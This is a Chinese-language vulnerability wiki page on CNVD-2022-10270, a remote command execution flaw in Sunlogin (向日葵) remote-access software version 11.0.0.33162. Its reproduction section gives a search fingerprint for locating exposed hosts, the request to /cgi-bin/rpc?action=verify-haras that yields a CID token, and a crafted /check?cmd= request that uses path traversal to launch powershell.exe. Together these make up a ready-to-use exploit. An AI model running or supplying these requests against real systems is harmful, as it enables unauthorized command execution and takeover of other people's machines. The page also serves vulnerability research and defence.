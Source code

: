 ```yaml
---
Title: 向日葵 check 远程命令执行漏洞 CNVD-2022-10270
---
```


# 向日葵 check 远程命令执行漏洞 CNVD-2022-10270

## 漏洞描述

向日葵通过发送特定的请求获取CID后，可调用 check接口实现远程命令执行，导致服务器权限被获取

## 漏洞影响

<a-checkbox checked>11.0.0.33162</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="Verification failure"</a-checkbox></br>

## 漏洞复现

向日葵在开启后会默认在 40000-65535 之间开启某端口

![img](/assets/PeiQi-Wiki/img/1645007224265-6dd3bed6-0d66-433d-96db-2532796ded2a.png)

发送请求获取CID

```javascript
/cgi-bin/rpc?action=verify-haras
```

![img](/assets/PeiQi-Wiki/img/1645007276844-29bf52d8-e4c4-4ece-8d9e-a5e2386de7c2.png)

使用获取到的 verify_string 作为 cookie的 CID字段，进行命令执行

```javascript
/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+ipconfig
```

![img](/assets/PeiQi-Wiki/img/1645007355798-42ab03f8-8652-4daf-a4c3-29938ce2f000.png)